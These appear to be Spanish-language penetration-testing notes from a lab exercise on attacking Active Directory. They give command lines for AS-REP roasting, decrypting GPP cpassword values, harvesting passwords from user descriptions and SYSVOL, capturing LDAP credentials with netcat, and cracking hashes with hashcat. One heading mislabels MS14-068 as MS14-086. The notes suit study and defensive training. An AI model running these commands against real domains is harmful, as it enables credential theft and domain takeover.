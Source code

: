 AAB#ASREPRoasting 
## **Exchange Related Group Membership**

El grupo `Exchange Windows Permissions`no está considerado como protected group, pero los miembros de este grupo tienen la habilidad de escribir DACL en objetos del dominio, lo cual puede terminar dándonos privilegios de DSync. El grupo  `Organization Management` es un grupo extremadamente poderoso también (”domain admins” de exchange)

En este [repositorio de github](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) se pueden ver varias técnicas de ataque para los miembros de este grupo.
### PrivExchange
El servicio exchange corre como SYSTEM y es un grupo con más privilegios de los normales por defecto. Este ataque permite que cualquier usuario con correo fuerce al Exchange a autenticarse en otro host (NTLM Relay), lo que puede llevar a la obtención de privilegios de administrador de dominio.

## Printer Bug

## MS14-086

Es una falla de vulnerabilidad en la autenticación kerberos que permite crear tickets PAC (información que se adhiere a un ticket TGT) de manera que se acepten como legítimos por el KDC. La idea es crear el ticket en el que el usuario se presenta como Administrador del DC. Puede ser explotado con herraminetas como [Python Kerberos Exploitation Kit (PyKEK)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) o con impacket.

## Capturando credenciales LDAP

Hay un [post interesante](https://grimhacker.com/2018/03/09/just-a-printer/) en el que nos cuentan como capturar credenciales. La idea detrás de esto es que hay aplicaciones o impresoras que guardan las contraseñas LDAP en la consola de administración. En otras ocasiones, las aplicaciones tienen una función “Test Connection”, que puede envíar credenciales en texto claro, por lo que podríamos capturarlas del siguiente modo:

```powershell
sudo nc -k -v -l -p 386
```

## Enumerando DNS

Podemos utilizar una herramienta como [adidnsdump](https://github.com/dirkjanm/adidnsdump) para enumerar todos los registros DNS de un dominio utilizando una cuenta de usuario de dominio válida. Esto resulta especialmente útil si la convención de nombres para los hosts que nos devuelven en nuestra enumeración utilizando herramientas como `BloodHound`es similar a `SRV01934.INLANEFREIGHT.LOCAL`. Si todos los servidores y estaciones de trabajo tienen un nombre no descriptivo, nos resulta difícil saber qué atacar exactamente. Si podemos acceder a las entradas DNS en AD, podemos descubrir potencialmente registros DNS interesantes que apunten a este mismo servidor

```powershell
adidnsdump -u inlanefreight\\\\forend ldap://172.16.5.5 -r
```

Devuelve un archivo `recrds.csv`

## Contraseñas en el campo description_field

```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

## PASSWD_NOTREQD

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

## Credenciales en SMB y SYSVOL

**SYSVOL** es una carpeta compartida en los **controladores de dominio (DC)** de un entorno de **Active Directory (AD)**. Es utilizada para **almacenar y replicar archivos y scripts** necesarios para la administración del dominio. En ocasiones puede haber información interesante como scripts de inicio de sesión o archivos de políticas de grupo (GPO), que pueden contener credenciales en texto plano

Ejemplo de de muestra de información de sysvol desde un equipo unido al DC

```powershell
ls \\\\academy-ea-dc01\\SYSVOL\\INLANEFREIGHT.LOCAL\\
```

### Group Policy Preferences (GPP) Passwords

Cuando una GPP se crea, se almacena en un archivo `.xml` en sysvol. Este archivo contiene un array de configuraciones y contraseñas. Hay un campo `cpassword`, que está encriptado con AES-256, pero microsoft [publicó la llave privada](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN) ( [MS14-025 Vulnerability in GPP could allow elevation of privilege](https://support.microsoft.com/en-us/topic/ms14-025-vulnerability-in-group-policy-preferences-could-allow-elevation-of-privilege-may-13-2014-60734e15-af79-26ca-ea53-8cd617073c30))

El valor de `cpassword` puede ser descifrado del siguiente modo:
```powershell
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Estas contraseñas pueden ser buscadas con herramientas como  [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

También se pueden localizar contraseñas con `nxc`,
```powershell
# Para mostrar los módulos relacionados con gpp
crackmapexec smb -L | grep gpp
# Usando el módulo gpp_autologin para volcar información de registry.xml
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

## ASREPRoasting

Cualquier usuario del dominio puede solicitar un Ticket Granting Ticket (TGT) de una cuenta que tenga deshabilitada la opción de preautenticación kerberos.
### Con powershell + rubeus
- Encontrar usuarios con `**DONT_REQ_PREAUTH`: `Get-DomainUser`
	```powershell
	Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
	```
- Recuperación AS-REP en formato adecuado mediante Rubeus (supongamos `mmorgan` tiene deshabilitada preautenticación)
	```powershell
	.\\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
	```
### Búsqueda de usuarios + Recuperación **AS-REP: `kerbrute`**
El siguiente comando nos mostrará, además de los usuarios del dominio, aquellos sobre los que se puede realizar aspreproasting + su hash
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

### Busqueda de usuarios + recuperación AS-REP: `GetNPUsers.py`
Con esta herramienta podemos hacer lo mismo que con el comando anterior, pero necesitaremos una lista válida de usuarios del DC
```bash
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```
### Descifrando el hash con hashcat
```bash
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

